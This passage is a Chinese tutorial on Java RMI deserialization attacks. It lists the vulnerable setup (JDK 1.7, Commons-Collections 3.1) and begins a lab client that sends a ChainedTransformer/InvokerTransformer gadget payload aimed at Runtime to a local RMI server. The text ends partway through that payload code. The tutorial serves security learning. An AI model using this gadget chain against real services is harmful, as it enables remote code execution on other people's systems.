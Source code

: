 # RMI反序列化基础

## 0x01 前言

具体细节，有待后续更新

请下载以下文件：

commons-colliections-3.1.jar：[下载](https://repo1.maven.org/maven2/commons-collections/commons-collections/3.1/commons-collections-3.1.jar)

jdk1.7：[下载](https://www.oracle.com/hk/java/technologies/javase/javase7-archive-downloads.html)

## 0x02 环境配置

RMI反序列化漏洞发生条件：

- jdk版本1.7
- 使用具有漏洞的Commons-Collections3.1组件
- RMI提供的数据有Object类型（因为攻击payload就是Object类型）

让我们跟随以下进行一次成功的攻击，然后再逐步介绍攻击过程的细节。

根据目录树配置以下目录结构

```sh
j7ur8@localhost Desktop % Tree JavaLearn
JavaLearn
├── lib
│   └── commons-collections-3.1.jar
└── src
    └── RMI
        ├── Client.java
        └── Server.java
```

Client.java：

```java
package RMI;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.rmi.Naming;
import java.util.HashMap;
import java.util.Map;
import RMI.Server.User;

public class Client {
    public static void main(String[] args) throws Exception{
        String url = "rmi://127.0.0.1:1099/User";
        User userClient = (User)Naming.lookup(url);

        System.out.println(userClient.name("lala"));
        userClient.say("world");
        userClient.dowork(getpayload());
    }
    public static Object getpayload() throws Exception{
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
```